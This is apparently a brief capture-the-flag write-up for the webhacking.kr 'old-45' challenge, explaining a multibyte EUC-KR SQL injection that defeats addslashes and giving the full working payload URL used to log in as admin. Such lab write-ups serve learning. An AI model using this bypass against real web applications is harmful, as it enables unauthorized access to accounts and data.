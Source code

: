 ```yaml
---
layout: default
title: old-45
---
```




another sql injection.
here we use insert %bb and then, after the addslashes put `\` before the `'`, it'll take the %bb + `\` and encode in `euc-kr` format.

this is the payload i gave:

here we want to insert this: `id=%aa%27%20or%20id%20like%200x61646d696e'`, this is like: `' or id like admin`
this is the query i used in the http get
```
https://webhacking.kr/challenge/web-22/?id=%aa%27%20or%20id%20like%200x61646d696e--%20&pw=guest
```

